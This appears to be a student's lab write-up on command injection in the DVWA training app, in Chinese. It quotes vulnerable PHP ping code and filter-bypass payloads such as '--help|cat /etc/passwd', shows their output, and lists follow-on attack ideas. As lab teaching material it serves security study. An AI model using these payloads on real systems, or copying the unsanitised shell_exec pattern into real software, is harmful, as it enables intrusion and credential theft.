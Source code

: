 # Ex2

命令注入

## 命令注入的3个条件；（15分）

* 网站提供系统指令执行功能
* 网站对用户输入校验不够严格
* 网站会将命令执行结果进行回显

## Low等级、Medium等级以及High等级；（30分）

### Low

* 以下为页面源代码

```php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
```

根据代码分析，可得知**ip参数**存在命令注入漏洞，构造注入内容```--help|uname -a```，点击提交即可。

提交之后，实际上服务器执行的命令为```ping  -c 4 --help|uname -a```，**ping命令**的标准输出传递到**uname命令**的标准输入，由于**uname命令**不需要输入内容，所以**ping命令**的输出会被忽略，使用参数```--help```可以使**ping命令**不会进行等待。

```log
Linux kali-linux-2021-3 5.14.0-kali2-arm64 #1 SMP Debian 5.14.9-2kali1 (2021-10-04) aarch64 GNU/Linux
```

### Medium

* 以下为页面源代码

```php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

```

根据代码分析，可得知**Medium等级**相较于**Low等级**增加了**字符过滤**。

但由于过滤并不完善，构造注入内容```--help|ip a```，点击提交即可。

提交后可以得到以下运行结果。

```log
1: lo:  mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0:  mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:1c:42:ad:90:69 brd ff:ff:ff:ff:ff:ff
    inet 10.211.55.8/24 brd 10.211.55.255 scope global dynamic noprefixroute eth0
       valid_lft 992sec preferred_lft 992sec
    inet6 fdb2:2c26:f4e4:0:a514:b05e:182b:716e/64 scope global temporary dynamic 
       valid_lft 603938sec preferred_lft 85458sec
    inet6 fdb2:2c26:f4e4:0:21c:42ff:fead:9069/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 2591752sec preferred_lft 604552sec
    inet6 fe80::21c:42ff:fead:9069/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

### High

* 以下为页面源代码

```php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
```

根据代码分析，可得知**High等级**相较于**Medium等级**对**字符过滤**进行了增强。

但是在过滤```|```字符时，多加了一个空格，所以只要在构造注入数据时不产生```| ```即可。

构造```--help|cat /etc/passwd```，提交，done。

```log
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...以下省略若干行...
```

## Impossible等级的机制以及修复、防御命令注入的方法。（30分）

* 以下为页面源代码

```log
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();
```

根据代码分析，可得知**High等级**相较于**Medium等级**对**字符过滤**进行了增强。

注入数据需要符合以下格式才可以被执行：

* 使用```.```进行分割，并恰好可被分割成**4个**字符串
* 分割的**4个**字符串，都为数字

但是显然，符合这种格式的字符串无法进行命令注入。

## 描述2）和3）之外你所知道的其他技巧(3种以上)。（15分）

* 由Low中输出结果得知的内核版本信息，可以找到针对内核版本的攻击方式。
* 由Medium中输出结果得知的IP信息，可以通过内网渗透的方式进行攻击，如：通过nmap扫描，再针对服务版本进行攻击。
* 由High中输出结果得知的用户信息，可以针对这些用户名进行弱口令爆破。
